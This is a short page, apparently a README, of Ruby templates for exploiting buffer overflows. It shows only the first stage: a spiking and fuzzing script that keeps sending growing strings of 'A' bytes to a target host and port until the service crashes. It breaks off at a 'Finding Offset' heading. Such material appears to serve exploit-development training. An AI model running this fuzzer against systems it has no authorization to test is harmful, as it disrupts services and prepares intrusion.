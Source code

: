 
### Ruby Templates for BOF

There are different stages of BOF and we'll have different scripts for each stage:

### Spiking & Fuzzing
```Ruby
require 'socket'

buff = "A" * 100
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

begin
    while true
        s = TCPSocket.open(RHOST, RPORT)
        s.puts buff + '\r\n'
        s.close
        sleep 1
        buffSize = buff.size
        buff += "A" * 100
    end
rescue Interrupt
    puts "Debugger crashed at #{buffSize} bytes"
end
```
### Finding Offset
